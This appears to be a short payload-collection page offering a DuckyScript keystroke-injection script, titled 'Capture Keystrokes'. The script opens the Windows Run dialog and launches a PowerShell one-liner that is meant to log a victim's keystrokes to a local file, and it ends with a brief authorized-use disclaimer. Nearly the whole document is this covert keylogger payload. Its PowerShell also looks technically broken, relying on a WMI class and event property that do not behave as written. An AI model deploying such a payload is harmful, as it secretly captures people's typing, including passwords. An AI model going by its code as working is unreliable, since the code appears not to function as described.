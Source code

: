 # Capture Keystrokes

Captures local keystrokes and saves them to a file using PowerShell.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "$keystrokes = @(); Register-WmiEvent -Class Win32_Keyboard -Action { $keystrokes += $EventArgs.PressedKey; if($keystrokes.Count -ge 10) { $keystrokes | Out-File C:\\keystrokes.txt } }"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.